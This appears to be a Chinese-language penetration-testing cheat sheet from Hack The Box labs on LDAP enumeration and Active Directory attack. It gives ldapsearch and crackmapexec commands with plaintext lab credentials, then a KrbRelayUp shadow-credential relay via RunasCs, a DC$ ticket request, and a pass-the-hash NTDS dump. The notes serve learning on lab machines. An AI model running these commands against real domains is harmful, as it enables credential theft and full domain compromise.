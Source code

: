 轻量目录访问协议，用于访问和修改分布式目录服务，如 Active Directory

##### crackmapexec 
```bash
crackmapexec ldap DOMAIN -u USER -p PASS [-k] [--users]
```

##### nmap 
```bash
nmap -p 389 --script ldap-search 10.10.10.119
```

##### ldapsearch
简单查询
```bash
ldapsearch -x -s base -b "" -H ldap://0.0.0.0 namingContexts 
[-Y GSSAPI   指定Kerberos认证,安装 libsasl2-modules-gssapi-mit 包]
```
例 `ldapsearch -x -s base -b "" -H ldap://10.129.229.57 namingContexts`
`namingContexts` : 查询上下文

**补充: 如果提示找不到 dc 主机，可能是 hosts 文件中的主机排序顺序。把 dc 放在第一位尝试**

查看用户信息,可疑字段
```bash
ldapsearch -H ldap://10.129.226.227 -x -b "DC=cascade,DC=local" '(ObjectClass=User)' | less
```

获得凭据查询
```bash
└─$ ldapsearch -x -b "dc=support,dc=htb" -H ldap://10.129.230.181 -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | less
```

##### ldapdomaindump (ldap 域信息转储)

```bash
ldapdomaindump -u search.htb\\hope.sharp -p 'IsolationIsKey?' 10.129.229.57 -o ./
```


# Attack
**KrbRelay**
https://github.com/cube0x0/KrbRelay
```bash
必须满足： 没有2022年10月补丁 ， 禁用LDAP签名 。
crackmapexec ldap absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k -M ldap-checker   (检查ldap签名)
```

发现 OXID 解析器的可用端口
```
*Evil-WinRM* PS C:\programdata> .\CheckPort.exe 
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 10
```

查找版本号
```
*Evil-WinRM* PS C:\programdata> cmd /c ver
Microsoft Windows [Version 10.0.17763.3406]
```
https://www.gaijin.at/en/infos/windows-version-numbers

**RunasCs** 是一个实用程序，用于使用与用户当前登录使用显式凭据提供的权限不同的权限来运行特定进程。该工具是 Windows 内置 runas.exe 的改进开放版本，解决了一些限制
https://github.com/antonioCoco/RunasCs/

从登录类型表里筛查，尝试 NewCredentials ，编号9
https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types
```bash
.\RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb 'C:\Users\winrm_user\desktop\KrbRelayUp.exe full -m shadowcred --ForceShadowCred -cls 3c6859ce-230b-48a4-be6c-932c0c202048' -l 9
```

```powershell
./r.exe asktgt /user:DC$ /certificate:<certificate> /password:<passowrd> /getcredentials /show /nowrap
```

crackmapexec 转储 ntds
```powershell
crackmapexec smb absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds
```
















